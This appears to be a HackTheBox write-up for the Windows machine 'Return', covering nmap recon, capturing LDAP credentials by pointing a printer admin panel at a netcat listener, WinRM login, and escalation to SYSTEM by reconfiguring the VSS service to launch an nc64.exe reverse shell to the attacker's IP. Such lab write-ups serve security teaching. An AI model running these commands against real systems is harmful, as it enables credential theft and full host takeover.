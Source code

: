 # 🖨️ HTB: Return

**Machine Info:**
- **Platform:** HackTheBox  
- **IP:** `10.10.11.108`  
- **OS:** Windows 10 / Server 2019  
- **Difficulty:** Easy  
- **Key Techniques:**  
  - Printer admin panel → LDAP creds  
  - WinRM → svc‑printer shell  
  - Server Operators → service hijack → SYSTEM  

---

## 🕵️ Recon

```bash
# Full TCP scan
nmap -p- --min-rate 10000 -oA nmap/return-alltcp 10.10.11.108

# Top ports + default scripts
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 \
  -sC -sV -oA nmap/return-services 10.10.11.108
```

- **IIS 10.0** on port 80 → “HTB Printer Admin Panel”  
- **LDAP** (389/636), **Kerberos** (88), **SMB** (445), **WinRM** (5985)  

---

## 🖨️ Shell as **svc-printer**

### 1. Leak LDAP credentials via admin panel

- Browse to `http://10.10.11.108/settings.php`  
- Change “Printer Hostname” to your IP:`http://10.10.14.6`  
- Listen on port 389:
  ```bash
  nc -lnvp 389
  ```
- Submit → the appliance attempts an LDAP bind to you, leaking:
  ```
  Username: return\svc-printer
  Password: 1edFg43012!!
  ```

### 2. WinRM / SMB access

```bash
# Verify WinRM
crackmapexec winrm 10.10.11.108 \
  -u svc-printer -p '1edFg43012!!'

# Shell via Evil-WinRM
evil-winrm -i 10.10.11.108 \
  -u svc-printer -p '1edFg43012!!'
```

- **User flag**:
  ```powershell
  type C:\Users\svc-printer\Desktop\user.txt
  # c0118264************************
  ```

---

## 👑 Shell as **SYSTEM**

### 1. Enumerate privileges & groups

```powershell
whoami /priv     # sees SeBackup, SeRestore, SeLoadDriver, …
whoami /groups   # member of BUILTIN\Server Operators
```

> **Server Operators** can _start/stop services_ on the host.

### 2. Hijack Windows service

1. **Upload** `nc64.exe` to `C:\ProgramData\nc64.exe`.  
2. **Reconfigure** the `VSS` service to run your payload:

   ```powershell
   sc.exe config VSS binpath=\
     "C:\Windows\System32\cmd.exe /c C:\ProgramData\nc64.exe -e cmd 10.10.14.6 443"
   ```
3. **Start** it (it will time out, but your shell persists):

   ```powershell
   sc.exe start VSS
   ```

4. **Catch your SYSTEM shell**:

   ```bash
   nc -lnvp 443
   # → nt authority\system
   ```

- **Root flag**:
  ```powershell
  type C:\Users\Administrator\Desktop\root.txt
  # 2e3771d0************************
  ```

---

## 🎉 Summary

1. **Printer Admin** → LDAP bind → `svc-printer:1edFg43012!!`  
2. **WinRM** → `svc-printer` shell  
3. **Server Operators** → modify `VSS` service → SYSTEM shell  
